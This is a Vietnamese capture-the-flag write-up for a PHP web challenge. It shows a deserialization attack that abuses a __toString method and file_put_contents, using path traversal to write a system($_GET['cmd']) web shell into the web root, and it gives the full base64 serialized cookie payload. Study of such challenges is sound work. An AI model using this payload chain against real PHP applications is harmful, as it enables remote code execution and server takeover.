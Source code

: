 # Pokemon Hof Panel Level 2 

> bài này sau khi giải kết thúc thì mình đọc wu của các anh thì mới ngộ ra ( lúc làm mình đã có ý tưởng nhưng mà ẩu quá nên bỏ :> gà quá huhu)

Bài này thì cơ bản vẫn giống bài level1 nhưng bài này yêu cầu chúng ta RCE dựa vào các method_magic trong php như *__contructer*, *__destructer*, *__toString*

chúng ta cùng nhìn vào *class Utils*

![Alt text](image.png)

bạn đấy hàm to_String() , nó tự gọi hàm  writelog() , khi mà object của mình được sử dụng như một String , nhìn vào đây :

```
  file_put_contents("/tmp/logs/".date('H_i_s').$this->logfile, $this->error);
```
tham số 1 chính là postion mà log file được lưu , tham số thứ hai là content của file đó 
nếu như giờ phần content đó là shell code và file name là file PHP thì mình đã RCE được đúng không ? 
Vấn đề nằm ở đây là : 
   - Làm sao back folder vì tmps/logs :  người dùng bình không vào được ? 
   vậy payload cần truyền vào đoạn đó là :  
   ```
   ../../../../../var/www/html/khanh.php
   ```
bởi vì server là apache **Server: Apache/2.4.57 (Debian)**
  - Shell code : 
  ```
  <?php   system(\$_GET['cmd']); ?>
  ```
  - Làm sao trigger được *__ToString()* chạy được , ( mình  bị ngu đoạn này trong thời gian giải diễn ra @@ ), để ý src của  nó thì thấy khi isChampion của user -> true thì mình vào được và nó có nối chuỗi với $user->name ( sẽ ra sao nếu $user->name của mình chính là object của class Utils -> có phải nó sẽ trigger được toString không ?)
  
  ![Alt text](image-3.png)

  tiến mình ghép các payload lại hoàn chỉnh như sau  : 

  ![Alt text](image-1.png)
 
 ```
 Tzo3OiJUcmFpbmVyIjozOntzOjQ6Im5hbWUiO086NToiVXRpbHMiOjI6e3M6NToiZXJyb3IiO3M6MzE6Ijw/cGhwICBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4iO3M6NzoibG9nZmlsZSI7czozNzoiLi4vLi4vLi4vLi4vLi4vdmFyL3d3dy9odG1sL2toYW5oLnBocCI7fXM6Nzoic3RhcnRlciI7TjtzOjEwOiJpc0NoYW1waW9uIjtiOjE7fQ==
 ```
  giờ lấy nó thay vào biến cookie và send là chúng ta sẽ up được shell code 

  ![Alt text](image-2.png)
  
  ![Alt text](image-4.png)
  
  giờ thì lấy flag ra thôi !

  # FLAG 

  ```
  KCSC{w3lc0me_t0_h4ll_0f_f4m3}
  ```
